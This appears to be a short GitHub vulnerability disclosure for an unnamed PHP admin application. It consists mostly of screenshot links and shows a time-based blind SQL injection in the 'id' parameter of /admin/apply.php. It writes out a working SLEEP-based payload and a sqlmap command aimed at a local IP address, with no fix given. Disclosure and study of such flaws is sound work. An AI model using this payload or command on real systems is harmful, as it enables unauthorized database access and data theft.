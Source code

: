 ![image](https://github.com/tangzhaosong/Excavate/assets/100182502/f4e99596-e003-4de0-b65a-1061af052570)

<br>Vulnerability function points, concatenated according to code routing, we get /admin/apply.php? set=edit_submit&id=1
Injection point id
Here delay injection to prove the injection point, write</br>
<br>payload：1'+AND+(SELECT+5289+FROM+(SELECT(SLEEP(5)))enfo)--+ihbh</br>
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/c4a96f33-e79e-4a37-9518-fd8424064013)

<br>Change sleep (1)</br>
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/8233c4cd-065d-43ce-b228-b83fd51aa8a9)

<br>Vulnerability exists
Attack using SQLMAP</br>
SQLMAP:
<br>Python sqlmap. Py - u "http://192.168.30.203/admin/apply.php? set=edit_submit&id=1" -p id</br>
![image](https://github.com/tangzhaosong/Excavate/assets/100182502/c166076b-d1c0-4504-883b-cf01f3a58558)
